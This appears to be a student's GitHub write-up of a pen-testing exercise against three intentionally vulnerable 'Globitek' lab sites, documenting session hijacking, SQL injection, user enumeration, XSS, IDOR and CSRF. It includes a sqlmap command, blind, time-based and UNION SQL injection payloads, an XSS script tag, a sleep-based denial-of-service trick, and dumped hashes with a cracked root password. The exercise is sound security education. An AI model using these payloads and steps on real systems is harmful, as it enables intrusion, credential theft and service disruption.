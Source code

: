 #  Pen Testing Live Targets

Time spent: 15 hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:

* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each color is vulnerable to only 2 of the 6 possible exploits. First discover which color has the specific vulnerability, then write a short description of how to exploit it, and finally demonstrate it using screenshots compiled into a GIF.

## Blue

# Vulnerability #1: Session Hijacking

Description: 

A Session Hijacking attack is an exploit that seeks to manipulate the web session control mechanism by sending a request to a web server with an authenticated SessionID, Cookie, or a combination of both. Web servers grant a token to a client browser after authentication; said token can be used to hijack another user's session. By masquerading your browser token as the authenticated token, the web server will recognize you as an authenticated user, granting you access. 

How to document and recreate this exploit:

1. First visit https://104.198.208.81/blue/public/staff/login.php and log in using the pperson credentials. 
2. Go to https://104.198.208.81/blue/public/hacktools/change_session_id.php to see your current PHPSESSIONID, and store that information for later. 
3. Open another browser such as Firefox or Chrome, visit https://104.198.208.81/blue/public/hacktools/change_session_id.php, and copy the authenticated PHPSESSIONID to replace your Session ID. 
4. Next visit https://104.198.208.81/blue/public/login.php; you should see that you are already logged in. 
5. We successfully bypassed authentication.


![Session Hijacking Exploit](https://user-images.githubusercontent.com/111711434/200113050-d1337254-f6f5-4351-b27f-76912f7a5866.gif)


# Vulnerability 2: SQL Injections

Description: 

SQL Injections are an attack that seeks to exploit vulnerabilities in an application's input validation for SQL queries. Malicious code is injected into a query that can reveal data found in the database, such as passwords, usernames, emails, etc.  

How to document and recreate this exploit:

1. First visit https://104.198.208.81/blue/public/staff/login.php and login using the pperson credentials. 
2. Then head on over to URL https://104.198.208.81/blue/public/salesperson.php?id=1 
3. Using BurpSuite, GET request file as a TXT file. We will feed this information to a tool called SQLMap with the following parameter: sqlmap -r /home/kali/sqlmal-dev/request.txt -a (the -a parameter will return EVERYTHING, at times not recommended)
4. SQLMap detects a vulnerability in the 'id=' field and provides us with three SQL injections:
	
   * Parameter: id (GET)
     * Type: boolean-based blind
     * Title: AND boolean-based blind - WHERE or HAVING clause
     * Payload: id=3' AND 2971=2971 AND 'bcTH'='bcTH
    
    Comments after testing: Returned the information for User Irene Boling; see below:
   
   
  * Irene Boling
  * 555-736-2301
  * iboling@salesperson.com

   
   
   * Type: time-based blind
   * Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
   * Payload: id=3' AND (SELECT 8396 FROM (SELECT(SLEEP(5)))PBWw) AND 'pCMl'='pCMl 
   
   
     Comments after testing: Changed (SLEEP(5))))PBWw) to SLEEP(200000))))PBWw, and it created a Denial of Service for the time set. 
   ![Denial of Service after SQL injection  ](https://user-images.githubusercontent.com/111711434/200140448-3da3ba36-f3b6-4bcf-a079-b24d6592906c.png)

   * Type: UNION query
   - Title: Generic UNION query (NULL) - 5 columns
   - Payload: id=-8495' UNION ALL SELECT  CONCAT(0x716b766a71,0x6b544944475a6778655979637a6558776b595163416a567459494a735864556b4f55666875547352,0x7171717a71),NULL,NULL,NULL,NULL-- -


Comments after testing: Redirects to the 'Find a Salesperson' web page.

The scan revelead the following information that can further assist us:
* Web Server OS : Linux Ubuntu 16.04 or 16.10
* Web App Technology: Apache 2.4.18 server
* MySQL version: 5.0.12

Databases:  

* [INFO] fetching database names
* [INFO] resumed: 'globitek_blue'
* [INFO] resumed: 'information_schema'
* [INFO] resumed: 'globitek_blue'
* [INFO] resumed: 'globitek_green'
* [INFO] resumed: 'globitek_red'
* [INFO] resumed: 'mysql'
* [INFO] resumed: 'performance_schema'
* [INFO] resumed: 'sys'



Database management users:                                                                                                                                                                                                     
* 'debian-sys-maint'@'localhost'
* 'mysql.session'@'localhost'
* 'mysql.sys'@'localhost'
* 'root'@'localhost'


Moreover, SQLMap also located & revealed the following password hashes:

[INFO] fetching database users password hashes
  
[INFO] resumed: 'mysql.sys','*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE'

[INFO] resumed: 'debian-sys-maint','*7B88B3A98617F2ED6B4EB4F48AEAD4E1416C359C'

[INFO] resumed: 'mysql.session','*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE'





Using the integrated dictionary-based password cracker (mysql_passwd), the password for root was found:

database management system users password hashes:                                                                                                                               


* debian-sys-maint [1]: password hash: *7B88B3A98617F2ED6B4EB4F48AEAD4E1416C359C
* mysql.session [1]: password hash: *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
* mysql.sys [1]: password hash: *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
* root [1]: password hash: *2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
*                            clear-text password: password




## Green

# Vulnerability #1: User Enumaration 

Description:

User enumeration is a method of discovering users on a database by analyzing the errors returned at a login prompt. An example would be entering credentials and the error displaying as "Unknown user" but trying different credentials and getting a "Password Incorrect or password does not match", which confirms that the user exists in the system. We can then work towards obtaining their password credentials through other means.

How to document and recreate this exploit:

1. Visit https://104.198.208.81/green/public/staff/login.php
2. Attempt to log on with a random username & password; you will notice that the error returns as "Login was unsuccessful." However, upon attempting to enter a known user, such as pperson with a wrong password, the same error returned but in bold(different CSS class), confirming the user exists in the database. 


![User Enumeration ](https://user-images.githubusercontent.com/111711434/200143718-b1ebb1ae-5fd7-4d2f-a9ee-1dfd6b6dd1f6.gif)



# Vulnerability #2: Cross Site Scripting (XSS) 

Description: 

Cross-Site Scripting(XSS) is an exploit in which a script can be executed via a web browser on behalf of the web application. The effects of XSS can result in account compromise, deletion, privilege escalation, malware infection, and more.  

Source: https://www.geeksforgeeks.org/what-is-cross-site-scripting-xss/

How to document and recreate this exploit:

1. Visit https://104.198.208.81/green/public/
2. Go to https://104.198.208.81/green/public/contact.php; the 'Contact' form is a possible injection point.
   ![image](https://user-images.githubusercontent.com/111711434/200144285-d3869f55-8a9f-479e-911b-a2b0b612a750.png)
     
3. Fill out the fields:
  * Name: Test
  * Email: test@yahoo.com
  * Feedback: <script>alert('In plain sight.');</script  (this is a blind XSS script test) 
4. Hit submit.
5. Log in using the pperson credentials.
6. Head to the Feedback section.
7. We confirmed that the site is vulnerable to XSS. 

![Green XSS](https://user-images.githubusercontent.com/111711434/200143880-9a29cfb5-4871-464d-9bca-4545b404deeb.gif)



## Red

# Vulnerability #1: Insecure Direct Object Reference (IDOR)

	
Description: 

Insecure Direct Object References are a type of vulnerability in which user-supplied input can be used to access data directly, such as (id?=, uid=, pid, etc). If access control is not configured correctly, users can see across other pages by changing the value of the ‘id=’. 

How to document and recreate this exploit:
	
1. Visit https://104.198.208.81/red/public/index.php
2. Head over to https://104.198.208.81/red/public/territories.php and click on any user of interest, in this case I picked bobby (https://104.198.208.81/red/public/salesperson.php?id=1) 
3. Preliminary testing indicates that salesperson.php?id= may be vulnerable. 
 * Tested various values in the ID= field of the URL
 * ID=10 revealed information about 
   Testy McTesterson, and user that is not supposed to be public until September 1st. 
   ![image](https://user-images.githubusercontent.com/111711434/200144425-b4fa5ff2-4ff8-41f7-80bf-95b876e7d9cc.png)
 
	

	
* ID=11 revelead information on Lazy Lazyman, an employee that was fired.
  ![image](https://user-images.githubusercontent.com/111711434/200144538-ad5dce27-82e2-43c7-bca9-d066dccad206.png)

	
	
	
# Vulnerability #2: Cross Site Request Forgery

Description: 

CSRF is an attack that preys on social engineering to execute HTML code to perform malicious actions on an authenticated user. The attack surface of CSRF spans from changing usernames to emails, passwords, and any other action allowed by the user on the site. 
	
	

https://www.geeksforgeeks.org/what-is-cross-site-request-forgery-csrf/
	
How to document and recreate this exploit:	
	
Upon inspection of the HTML form at URL https://35.184.88.145/red/public/staff/salespeople/edit.php?id=1, I noticed that the site accepts any value for the CSRF token. This allowed for the following HTML page to be created to perform a Cross-Site Request Forgery attack to edit the users details. 

![image](https://user-images.githubusercontent.com/111711434/200211251-34f6e313-53dc-4274-b875-3dd53e05f111.png)


Demonstration:
![CSRF](https://user-images.githubusercontent.com/111711434/200211277-eec81686-810d-404d-ad57-8e3b52c83f31.gif)


## Notes

Sources utilized:
1. https://www.geeksforgeeks.org/sql-injection-cheat-sheet/
2. https://www.sqlinjection.net/union/
3. https://github.com/payloadbox/sql-injection-payload-list
4. https://owasp.org/www-community/attacks/Session_hijacking_attack
5. https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
6. https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
	

